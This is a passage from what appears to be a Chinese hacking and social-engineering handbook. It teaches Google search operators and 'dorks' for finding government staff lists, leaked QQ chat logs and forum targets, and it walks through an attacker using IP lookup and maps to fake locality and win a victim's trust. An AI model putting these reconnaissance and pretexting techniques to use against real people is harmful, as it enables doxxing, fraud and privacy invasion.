

图13



图14

### 1.5 你该学习信息控制技能？

今天的信息时代与凯文·米特尼克的环境有所不同，四处都有新技术充斥横行。社会工程学师要求掌握多项技能，以及相关基础知识，花时间去从事资料的收集与进行必要的（如交谈性质的）沟通行为。看上去，这需要有快速学习新技术的能力，否则，你会与普通人一样，没什么区别。

古时候代表能力的是权力管制机构，即皇帝、大臣们；到了资本主义或是殖民主义时，代表能力的就是财力；而今天，代表能力的是知识，是信息！尽管上述三种标志仍在这个时代存在，但请注意，最有价值的是留在你脑海中的知识与信息。

你清楚地知道，今天的黑客就是信息时代与安全的对抗者；你更清楚地知道，今天没有任何一种权力与财力能真正影响互联网并推动其发展，影响它的是技术手段。如果说凯文·米特尼克与其他的科学天才与我们有所不同，那一定是他们更善于汲取信息。

#### 1.5.1 快速信息筛选与处理技巧

如果你小的时候看书很慢或者记忆力稍差，我想你得努力一点。强大的信息检索需要快速阅读的能力，这种速读技巧并不难，只需让你快速了解文章大意，以及定位需要寻找的信息。在我小学的时候，很难想象我迷上的是故事书，有大量的文字不认识；通常以部首推测，弄懂文意即可。现在我翻阅一本《黑客手册》大约只需要20分钟，并能快速学习我需要的技术。

关于记忆方面，我会建议你翻看网络上面的记忆法，通常你用编码记忆可以5分钟内记住50个长串数字。噢！我绝不是吹牛，我可以现场给你演示。切记，每个人生来在智力方面本没有太大区别，只是因为后来掌握信息的方式不同而已。

好吧，你对速读与记忆不感兴趣，那么这里说的一些技巧对你应该是很重要的。当你从网络看到十分不错的信息，不需要写下完整的句子，可以用笔记下关键词，然后将关键词通过一些符号联结起来，以方便信息容易保存并易于整理。你绝对会需要一台打印机方便输出你的数据，哪怕是刻录机也行。记住：数据存储于外部才是安全的。

如果你实在很懒，不想在车水马龙的环境中记下一些灵感，这简单，使用你手机上的录音功能记录下来。再如看到非常不错的文档资料时，你不想携带的话可以考虑使用手机拍照功能，手机分辨率与像素质量不错的话，是最好不过了。

#### 1.5.2 快速掌握新技术的学习技巧

凯文·米特尼克在快速掌握SAS电话窃听的使用上，方法很简单，他直接查看说明书即可。同样，你购买的药物不知怎样口服，也很简单，直接看说明书。但这简单的道理并非很多人都注意到，比如在操作Windows系统时，人们遇到问题总四处求助，他们忘记了比尔·盖茨大叔早就为他们准备了“帮助与支持”，就在开始菜单那里躺着呢。

假设你不会开卡车，很简单，随便从网上下载一本说明书即可。当你开始想学习新生的事物时，不妨找找“说明书”或是“技术支持”等。

还有更简单的方法吗？有的！比如你想学习无线电，可以直接去找懂无线电的人，你可以付一定的学习费用，跟在他们的旁边看看他们如何操作，然后再去模仿。你模仿得相同，那么做的就会正确！

比如，我在初中的时候总是需要搭公交车看望父母，但我不想打发无聊的时间，通常就站在驾驶员旁边，什么都不做，就是盯着驾驶员如何操作，比如加速应该怎样，减速应该怎样。一段时间后我都知道自己能开公交车了，但我父母并不知道。

如果你在自学某种技术时遇到一些困难，首先要看看相关技术支持是否有解决方法，如果没有的话，请用搜索引擎搜索（具体做法可以参考第二章）。搜索引擎也无法找到答案时，你应该找到相关专业的人来帮助，比如到论坛、技术群里求教等。

最后，直接关注于新技术的发展趋势，比如打开门户站点的IT科技栏目处即可看到，或者寻找专门的社区订阅RSS服务，以确保你第一时间了解新技术的发展与说明。

## 第二章 无处藏身——信息搜索的艺术

- 千万不要把真名放在网上
- Google搜索引擎黑客
- 门户站点、信息泄露的入口点
- 综合信息的搜索，你会了吗？
- 案例攻击应用与分析
- 尾语：是否真的无处藏身？


### 2.1 千万不要泄露你的姓名

我很负责地告诉你，一旦你把真实姓名放在网络上，那么，随之你的隐私也会被赤裸裸地放在网上……

无论你身在网络何地，也许在聊天、听歌、打电话、购买商品……只要一个网络ID，攻击者就能追溯你的网络历史；他能获知你的家庭住址、联系电话、身份证号码等等，而且还能知道，你的兴趣爱好是什么，你的心理特点是怎样，你的朋友有哪些等。不用怀疑，这就是信息搜索的魅力。

在这一章中，将全面讲解信息搜索的方法与技巧，同时，别忘了清除你的网络记录。

### 2.2 Google搜索引擎黑客

对于每一个黑客来说，Google是他们的至爱，是寻找攻击目标的助手。Google是什么？世界排名第一、广受赞誉的搜索引擎。

像作者本人，就是从Google认识到庞大的互联网，也是最初善用Google进行入门级“黑客攻击”的人。Google所提供的名目繁多的免费服务都很优质。2005年时，Google存储网页数量达80亿，图片11亿，口号是“永不作恶（Don't be evil）”。我们惊诧Google的强大，更为它的信息搜索能力所折服。

### 2.2.1 Google高级搜索应用技术

如果只是在Google.com键入关键字然后搜索信息，恐怕不会返回你所期望的结果。举例吧，如果你想寻找一个“张三”的信息，直接在Google中输入后会返回30万的结果……因此我们需要使用Google高级语法筛选结果，下面列出Google部分语法，并进行演示，如图1所示。

| 语法 | 说明 | 演示 |
|---|---|---|
| + | 搜索结果要求包含两个及两个以上关键字 | 黑客手册 + 非安全 |
| - | 表示逻辑“非”操作，即逻辑除外关键字 | 黑客手册 - 杂志 |
| "" 与 () | 可用来搜索完整句子，可包括空格 | "黑客手册 杂志" |
| OR（要大写）与 \| | 搜索结果至少包含多个关键字中的任意一个 | 黑客手册 OR 非安全 |
| intitle 与 allintitle | 对网页标题栏的关键字查询 | intitle:黑客手册 |
| inurl 与 allinurl | 查找网址链接的关键字 | inurl:nohack 黑客手册 |
| intext 与 allintext | 只搜索网页`<body>`部分中包含的文字 | intext:黑客手册 |
| site: | 搜索结果只限于某个具体网站或者网站频道 | site:nohack.cn 最新漏洞 |
| filetype 与 ext: | 用于文件文档搜索 | filetype:pdf 黑客 |
| link: | 搜索所有链接到某个URL地址的网页 | link:www.nohack.cn |
| related: | 用来搜索结构内容方面相似的网页 | related:www.nohack.cn |
| cache: | 从Google服务器上缓存页面中查询信息 | cache:nohack.cn |
| info: | 用来显示与某链接相关的一系列搜索 | info:nohack.cn |


##### 2.2.1.1 组合式语法搜索

单个语法不能比多个语法搜索更加精准，多个语法组合搭配可快速定位结果。

**例如：**我们现在需要知道《黑客手册》2006年5月的杂志的详细目录，那么应该怎么搜索呢？如果使用关键字“《黑客手册》2006年5月目录”会搜索到一大堆不是我们需要的结果，现在我们分析一下。

通常目录都是先由杂志社发布的，那我们将关键字换成“site:nohack.cn 0605”，这次第一个结果就是我们想要的。但是，我们还可以定位得更加准确，从而可避免搜索到讨论这期杂志的话题。

我们再从网站的主体（body）内容定位，使用关键字“site:nohack.cn 0605 intext:目录”搜索……瞧，搜索到的全是我们想要的结果，如图2所示。



##### 2.2.1.2 善用搜索特征码定位

什么是搜索特征码呢？即针对某一类型搜索的特有关键字。

定位的特征码越准确，就越容易搜索到期望的结果，这需要你更加仔细地留心观察并实践才能发现。例如，我们想下载一部电影《投名状》，现在主流的下载工具是迅雷，大多数的人发布电影时都会贴上迅雷下载测试，让我们看看下载测试是什么样子。

```
2007-12-16 10:59:42 开始连接
2007-12-16 10:59:44 开始搜索候选资源   // 特征码
2007-12-16 10:59:44 没搜索到候选资源，稍后重试搜索   // 特征码
2007-12-16 10:59:44 搜索到30个候选资源
2007-12-16 10:59:44 使用候选资源进行连接   // 特征码
2007-12-16 10:59:45 搜索到6个候选资源
2007-12-16 10:59:45 使用候选资源进行连接
2007-12-16 10:59:45 原始资源连接成功，得到的文件长度：462391655
2007-12-16 10:59:50 开始创建文件
2007-12-16 10:59:52 文件创建成功，开始下载数据   // 特征码
```

如果你经常下载电影，上面的测试链接是最熟悉不过了。在测试链接中，我定位4处特征码，即“开始搜索候选资源”等等。那么按什么要求来定位呢？当然要特有的、专用的、不常见的。

现在，我们就能使用特征码下载所想看的电影了，比如前面说的电影就这样搞定。搜索“投名状 文件创建成功，开始下载数据……”即可。

再看如何定位论坛来搜索特征吧，如搜索黑客类型的论坛。玩站点入侵的一定会熟悉这段“Powered by PHPWind v5.3 Certificate Code”，这是一段PHPWind论坛程序的标识，如果我们搜索“黑客技术 Powered by PHPWind v5.3 Certificate Code”，一般不会获得我们想要的结果，因为论坛程序版本标识谁都会改掉。现在我以Discuz和PHPWind论坛来定位搜索特征码，请看图3。



图3

在图3中，我们可以看到Discuz与PHPWind的主体内容特征码是“查看完整版：”，网址中的特征码分别是“archiver”与“simple”及“thread.php?fid=”。好了，那我们构造的搜索语法是“inurl:(archiver|simple) intext:"查看完整版：" 黑客技术”，这样搜索的就全部是讨论黑客技术的论坛了，如图4所示。



图4

#### 2.2.2 敏感信息的搜索

如果你好奇某一件事物，比如：你想知道政府的敏感信息和机密文档（建议不要看，那多数很无聊），又或者某个企业机构的报文；甚至是只有内部人员才能查看的机密概要……如果你感兴趣，OK，你可以接着往下看……

### 针对政府信息的查询

政府信息通常的用途主要是相关人员的交流或者工作报告。在你进行搜索时，你得了解政府的相关常用术语。这类信息通常放置于GOV站点，不同政府部门的人都有一个账户来进行登录，上传必要的文件档案（文件格式通常为：DOC/PPT/XLS等），以供相关技术人员整理上交。文件信息主要以城市建设、部门工作任务、工作汇报与年度计划、部门人员职位名单信息等等。

初看起来，大部分人都会认为没有用处，但这可以使你更加清楚地了解某个城市政府的结构、人员信息、工作计划，他们在干什么。现在我们尝试广谱搜索政府人员名单，搜索语法是“filetype:xls inurl:gov 干部成员名单”。我们看看搜索的结果，如图5所示。用户广谱搜索时会出现多个城市的结果，如果仅是针对单一的城市的话，我们可用针对性的关键字即可，比如我从烟台政府网站获取企业名单，那么搜索语法就是“site:yantai.gov.cn filetype:xls 企业名单”。



图5

### 搜索 IM（QQ、MSN、Yahoo、Gtalk）聊天记录

最近我们经常在网上看到一些新闻，说的是攻击者盗取QQ后，冒称QQ使用者向好友发送诈骗信息；比如类似于“有紧急事情，请求汇款”等信息，以进行欺骗行为。

其实，使用Google也能做到上述攻击行为，让Google找到某段聊天记录，并分析聊天记录内容，根据聊天记录所提供的信息来获取受害者的信任并进行攻击。

现在我定位了几处QQ聊天记录的搜索特征码，比如：“您好，我现在有事不在，一会儿再和您联系”、“在打开文件前，推荐您对文件进行病毒扫描，转存至QQ网络硬盘”、“正在建立连接，如果要中止接收文件，请按取消”、“已经和对方建立了连接（UDP直连）”等。

好啦，现在让我们尝试搜索一下，搜索语法为“intext:"已经和对方建立了连接（UDP直连）。" "886"”，图6为搜索结果。



图6

接下来，你或许在想，聊天记录有什么用呢？又不能找到对方！真的吗？我们只要将网名放到QQ好友里进行搜索即可轻而易举地查到。除了主流的聊天工具QQ，其它聊天工具同样也存在利用价值。现在，你得小心你的聊天记录！哪怕是你的好友，都可能在泄露你的信息。

#### 2.2.3 你在哪里？哪个市区？哪条街道？

### 黑客社会工程学攻击

攻击者使用QQ珊瑚虫显IP版本获知对方来自湖南大学，然后说自己也是那里的学生，经常乘坐XX路公交车穿过某个街道，甚至还知道离湖南大学不远处有个非常不错的美味点。这时可以发现，对方开始兴奋起来，毫不避讳和攻击者谈论某个餐馆的雷公鸭的价格是贵得多么离谱，而且他可能还会热情地邀请你下次再尝雷公鸭的火辣味儿。看上去，他为认识在一个地区的朋友感到高兴。

我不得不再次提醒，上述攻击者可能在黑龙江，或者更远的地区，你或许很奇怪，身在黑龙江怎么能对湖南大学附近的情况如此了解呢？而且能如此轻松地获取信任？不用怀疑，这是Google的杰作。下面我来重现攻击者的操作步骤……

攻击者已经知道对方的具体地址，他现在需要了解湖南大学校园周边的信息，Google的快速和详实给予了方便。攻击者打开Google的地图搜索：http://ditu.google.com，然后输入“湖南大学”后回车即可看到湖南大学详细的地图情况，如图7所示。



图7

在图7中，除了搜索地图，还提供了搜索周边、行车路线，这可以让攻击者熟悉周边商业以及交通情况。还记得攻击者提到过湖南大学不远处的雷公鸭吗？这次需要用到Google的生活搜索。

在图7中，攻击者已获得湖南大学详细的地址，即长沙市岳麓区，他打开Google生活搜索：http://www.google.cn/shenghuo，在搜索框下选择“餐饮”，然后搜索“长沙市岳麓区”，很快就出来了结果，如图8所示。



图8

具体怎么做呢？这次需要使用Google Earth（Google地球）搜索，它聚合了卫星照片、航空照相和GIS，方便查看地球图像，你可以打开http://maps.google.com/看到。

由于其它因素的影响，Google并没有推出中文版，不能查看到地理标注，不过这不要紧，国内有关的Google爱好者提供了互动地图平台，你只需要输入城市或是某个地区则能轻松帮你定位。

现在打开http://www.ccmap.org/，在网页右上角的搜索框内直接输入“湖南大学”进行搜索，随后将放大级别调整为18，怎么样？攻击者就能够很轻松地找到标志物了，如图9所示。



图9

#### 2.2.4 第一手情报

在所有的渗透攻击中，最重要的便是信息，你掌握越多、越快、越有价值的信息，就意味着你越处于优势。

Google Alerts（Google快讯）很恰当地为黑客提供了帮助，它能发送最新的你所关心的快讯到你的邮箱。精明的黑客可以在这里创建监视最新漏洞的快讯，以便他们快速获得第一手技术材料。那么对于社会工程学师呢？你能联想到社会工程学师对哪些敏感的信息感兴趣吗？比如，他们以此来监视某个人的网络行踪。

现在我们演示一下跟踪Google手机产品的信息吧，前提是你需要一个Google账户，如果没有，你可以在https://www.google.com/accounts/NewAccount?continue=http%3A%2F%2Fwww.google.cn%2F&hl=zh-CN创建一个账户，然后打开：http://www.google.cn/alerts，在“搜索字词”处填入“Google手机产品”，并点击创建快讯，如图10所示。

